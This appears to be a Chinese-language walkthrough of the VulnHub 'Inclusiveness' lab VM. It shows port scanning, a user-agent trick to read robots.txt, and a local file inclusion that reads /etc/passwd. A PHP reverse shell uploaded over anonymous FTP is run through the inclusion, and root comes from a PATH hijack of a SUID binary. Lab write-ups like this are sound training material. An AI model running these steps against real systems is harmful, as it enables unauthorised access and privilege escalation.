







# Inclusiveness

> https://download.vulnhub.com/inclusiveness/Inclusiveness.ova

靶场IP：`192.168.32.23`

扫描对外端口服务

```
┌──(root㉿kali)-[/tmp]
└─# nmap -sV -p1-65535 192.168.32.23
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 01:43 EDT
Nmap scan report for 192.168.32.23
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:04:82:67 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.39 seconds

```

FTP匿名访问，没有发现有用的东西

```
┌──(root㉿kali)-[/tmp]
└─# ftp 192.168.32.23 
Connected to 192.168.32.23.
220 (vsFTPd 3.0.3)
Name (192.168.32.23:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||55354|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Feb 08  2020 .
drwxr-xr-x    3 0        0            4096 Feb 08  2020 ..
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||35394|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -al
229 Entering Extended Passive Mode (|||26092|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 .
drwxr-xr-x    3 0        0            4096 Feb 08  2020 ..
226 Directory send OK.

```

访问80端口



爆破目录

```
┌──(root㉿kali)-[/tmp]
└─# dirb http://192.168.32.23/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep 14 01:47:53 2022
URL_BASE: http://192.168.32.23/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.23/ ----
+ http://192.168.32.23/index.html (CODE:200|SIZE:10701)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.23/javascript/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.23/manual/                                                                                                                                                                                               
+ http://192.168.32.23/robots.txt (CODE:200|SIZE:59)                                                                                                                                                                                      
+ http://192.168.32.23/server-status (CODE:403|SIZE:278)                                                                                                                                                                                  
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.23/javascript/ ----
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.23/manual/ ----
==> DIRECTORY: http://192.168.32.23/manual/da/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/de/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/en/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/es/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/fr/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/images/                                                                                                                                                                                        
+ http://192.168.32.23/manual/index.html (CODE:200|SIZE:626)                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.23/manual/ja/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/ko/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/style/                                                                                                                                                                                         
==> DIRECTORY: http://192.168.32.23/manual/tr/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.23/manual/zh-cn/                                                                                                                                                                                         
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.23/manual/da/ ----
==> DIRECTORY: http://192.168.32.23/manual/da/developer/                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.23/manual/da/faq/                                                                                                                                                                                        
==> DIRECTORY: http://192.168.32.23/manual/da/howto/                                                                                                                                                                                      
+ http://192.168.32.23/manual/da/index.html (CODE:200|SIZE:9117)                                                                                                                                                                          
==> DIRECTORY: http://192.168.32.23/manual/da/misc/                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.23/manual/da/mod/                                                                                                                                                                                        
==> DIRECTORY: http://192.168.32.23/manual/da/programs/                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.23/manual/da/ssl/                                                                                                                                                                                        
                                                                  
```

访问：`/robots.txt`，提示说你不是搜索引擎，不能读取。



修改 **UA** 为搜索引擎标识即可

```
┌──(root㉿kali)-[/tmp]
└─# curl -A GoogleBot http://192.168.32.23/robots.txt
User-agent: *
Disallow: /secret_information
```

访问：`/secret_information`



该页面有文件包含漏洞

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.23/secret_information/?lang=/etc/passwd
<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi-autoipd:x:107:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
avahi:x:113:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:114:121::/var/lib/saned:/usr/sbin/nologin
colord:x:115:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:116:123::/var/lib/geoclue:/usr/sbin/nologin
tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:118:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin

```

上传反弹shell到FTP里面



查看FTP的虚拟目录

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.23/secret_information/?lang=/etc/vsftpd.conf

# Point users at the directory we created earlier.
anon_root=/var/ftp/
write_enable=YES
```

访问：`http://192.168.32.23/secret_information/?lang=/var/ftp/pub/shell.php`



查看tom目录，发现rootshell有suid，并且有源码，分析是执行`whomai`命令



使用环境变量绕过提权

我们在 /tmp 目录下建立一个文件为 whoami 并编写以下 bash 代码来打印用户tom

```
echo "printf "tom"" > /tmp/whoami
```

添加可执行权限 whoami

```
chmod +x whoami
```

更改目标系统路径 /tmp 目录

```
export PATH=/tmp:$PATH
```

提权成功


